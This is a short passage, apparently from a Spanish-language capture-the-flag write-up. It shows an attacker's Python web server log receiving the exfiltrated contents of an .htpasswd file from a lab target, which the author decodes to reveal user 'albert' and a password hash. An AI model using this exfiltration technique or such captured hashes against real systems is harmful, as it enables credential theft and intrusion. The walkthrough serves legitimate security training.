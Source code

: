 <figure><img src="../../../../.gitbook/assets/imagen (220).png" alt="" width="563"><figcaption></figcaption></figure>

Desde nuestro servidor Web, verificaremos que hemos recibido el contenido del archivo `.htpasswd`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [21/Jan/2025 22:41:26] "GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

Descodificaremos el contenido obtenido a través de `Cyberchef` y logramos tener el archivo en texto plano. Comprobamos que nos aparece el usuario `albert` y su contraseña en formato hash.

